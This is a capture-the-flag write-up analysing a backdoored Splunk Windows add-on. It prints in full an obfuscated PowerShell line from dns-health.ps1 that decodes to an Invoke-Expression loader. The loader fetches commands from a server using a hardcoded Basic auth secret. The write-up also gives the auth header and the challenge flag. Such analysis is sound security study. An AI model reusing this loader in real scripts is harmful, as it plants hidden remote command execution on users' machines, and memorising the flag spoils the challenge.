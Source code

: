 +++
title = "Backdoored Splunk II"
description = "You've probably seen Splunk being used for good, but have you seen it used for evil?  \n  \n**NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag.**  \n  \n**Download the file(s) below and press the `Start` button on the top-right to begin this challenge.**"
authors = ["Tyr"]
date = 2024-09-30

[taxonomies]
categories = ["forensics"]
+++

## Description

You've probably seen Splunk being used for good, but have you seen it used for evil?  
  
**NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag.**  
  
**Download the file(s) below and press the `Start` button on the top-right to begin this challenge.**

----

When accessing the web page, it returns only the following message:
- `{"error":"Missing or invalid Authorization header"}`

To investigate, let’s intercept the traffic using BurpSuite. This confirms that our access returns a `401 UNAUTHORIZED` error.
![](https://i.imgur.com/7x2qJbo.png)

Next, we download the provided zip file, which appears to be a Splunk Add-On for Windows. Exploring the contents reveals several PowerShell scripts in the `/bin/powershell` directory that are worth examining. In the `dns-health.ps1` script, we find an intriguing line:

```powershell
[STRinG]::JoIN('',[chAr[]](36 , 79 ,83 , 86, 69 ,82 ,32, 61,32,39 , 105, 101, 120 , 32 , 40 ,91 ,83 , 121 , 115 , 116,101 , 109, 46,84 ,101 ,120 , 116 ,46,69 ,110 ,99, 111 , 100, 105 ,110 ,103 ,93, 58 ,58 ,85, 84,70 , 56,46,71 ,101 ,116,83,116, 114 , 105 , 110, 103 ,40 , 91 , 83 ,121 , 115 ,116, 101, 109 , 46 ,67 ,111, 110,118 , 101, 114 ,116 , 93, 58 ,58, 70,114 ,111, 109 ,66,97 , 115, 101,54, 52 , 83 , 116 , 114 ,105 , 110,103,40 ,34,73,121 , 65 , 107,85, 69 , 57 , 83,86 ,67 ,66 ,105,90 ,87, 120, 118 , 100,121, 66,112 ,99,121 , 66 ,107 ,101, 87 , 53 , 104,98 ,87 , 108 , 106, 73 , 72 , 82 , 118 ,73, 72,82 , 111, 90 , 83, 66, 121 , 100 , 87, 53 , 117 ,97 , 87 , 53 , 110, 73,72 ,78, 108 ,99, 110 , 90 , 112, 89,50 ,85 , 103, 98 ,50 ,89,103 , 100,71,104 ,108,73, 71 ,66 , 84, 100, 71, 70 , 121 , 100 ,71 , 65, 103, 89, 110,86,48, 100,71 , 57, 117 , 68, 81, 112,65 ,75 , 67,82,111 ,100 ,71 ,49 , 115 ,73 , 68,48,103, 75 ,69, 108,117,100, 109 ,57,114 , 90 , 83 , 49,88, 90 ,87,74,83,90, 88, 70, 49, 90,88, 78 ,48, 73,71 ,104 ,48 ,100,72 , 65 , 54 ,76, 121, 57,106 , 97,71, 70,115,98 ,71, 86 ,117 , 90, 50,85 ,117,89 , 51 ,82,109,76 ,109, 100, 104,98 ,87 ,86, 122 ,79 , 105, 82 ,81 ,84 , 49,74, 85 , 73,67,49 ,73 , 90 ,87 ,70,107 , 90, 88 , 74,122 ,73,69, 66 ,55 ,81 ,88 , 86 ,48 ,97 ,71 ,57 , 121 ,97,88, 112,104, 100 ,71 ,108, 118,98,106 , 48 ,111,73 ,107, 74, 104,99,50 ,108,106,73,70, 108 , 116, 82,109,112 ,104, 77 ,108, 74 ,50 ,89,106 ,78 , 74 ,78,109 ,82, 72 , 97,72, 66, 106 ,77 , 84 ,108 ,119, 89 , 122,69, 53,77 , 71 , 70 , 72 ,86, 109,90, 104 , 83 , 70,73,119 ,89 , 48, 89 , 53 ,101 ,108, 112, 89 , 83 , 106,74 , 97, 87 ,69,112 , 109 ,89 ,122, 74,87 ,97, 109,78, 116, 86,106 , 65, 105,75, 88 , 48, 103 , 76,86 ,86 ,122, 90 , 85,74 , 104 ,99, 50,108, 106 ,85, 71, 70 ,121,99,50 , 108 , 117 , 90,121 , 107 ,117, 81,50 ,57,117, 100, 71 , 86 , 117, 100 , 65, 48 , 75,97 , 87,89 ,103, 75 ,67, 82 , 111,100 ,71 , 49, 115 ,73 ,67,49 ,116 , 89 , 88, 82,106 ,97 , 67 , 65,110, 80, 67 , 69 , 116 , 76,83 , 103, 117 , 75 ,106 , 56 ,112 ,76 , 83,48,43,74,121 , 107 ,103 , 101,119 ,48 ,75, 73,67 , 65 ,103,73 , 67 , 82, 50,89 ,87, 120,49 ,90 ,83, 65 , 57 , 73, 67, 82, 116 ,89, 88 , 82,106 ,97 ,71, 86,122, 87, 122,70,100 , 68, 81 ,111,103 , 73 ,67,65 , 103 , 74 , 71, 78 ,118, 98 ,87 ,49, 104 ,98 ,109 ,81, 103,80 , 83 , 66, 98 ,85 , 51 , 108, 122 , 100 ,71,86, 116, 76,108 ,82, 108 , 101,72,81,117 ,82,87 ,53 ,106 ,98 , 50, 82 , 112 ,98,109 ,100,100 , 79 , 106 , 112 ,86 ,86 , 69 , 89,52 ,76,107 , 100,108, 100 , 70, 78,48 ,99,109 , 108,117 , 90 , 121, 104 , 98 , 85, 51, 108 ,122, 100, 71, 86, 116 , 76 , 107, 78 ,118 ,98, 110,90, 108 , 99, 110,82,100, 79,106,112, 71,99,109, 57, 116 , 81 , 109 , 70 , 122 , 90 , 84,89 , 48 , 85, 51 , 82,121 , 97 ,87,53, 110,75,67,82 ,50,89 , 87 , 120 , 49 ,90 , 83 , 107 ,112 ,68, 81,111, 103 , 73, 67, 65 ,103 ,83 ,87, 53 ,50 , 98 , 50, 116 , 108, 76,85,86 , 52 ,99 ,72, 74 ,108, 99,51 ,78, 112 ,98, 50 , 52 , 103, 74, 71, 78,118, 98, 87 , 49 ,104 ,98, 109 ,81 , 78 ,67 ,110,48 , 112 , 34,41, 41 , 41,39 )) | &( $PsHomE[21]+$PsHoMe[30]+'X')
```

Decoding this line from ASCII using [CyberChef](https://cyberchef.org/), we discover that it’s an `Invoke-Expression` (`iex`) command executing a base64-encoded script:
![](https://i.imgur.com/y4W4lg5.png)

Upon decoding the base64-encoded command, it appears to use an `Invoke-WebRequest` with basic authentication. Specifically, it sends an authorization header with `backdoor:this_is_the_http_server_secret` encoded in base64 as `YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0`. 
![](https://i.imgur.com/r2ZbIFv.png)

By adding this line in BurpSuite’s header section:
- `Authorization: Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0`

Bingo! This grants us access to execute the command through `iex`, which is:
- `echo flag{e15a6c0168ee4de7381f502439014032}`
![](https://i.imgur.com/Kaw1GyV.png)

The flag is: `flag{e15a6c0168ee4de7381f502439014032}`
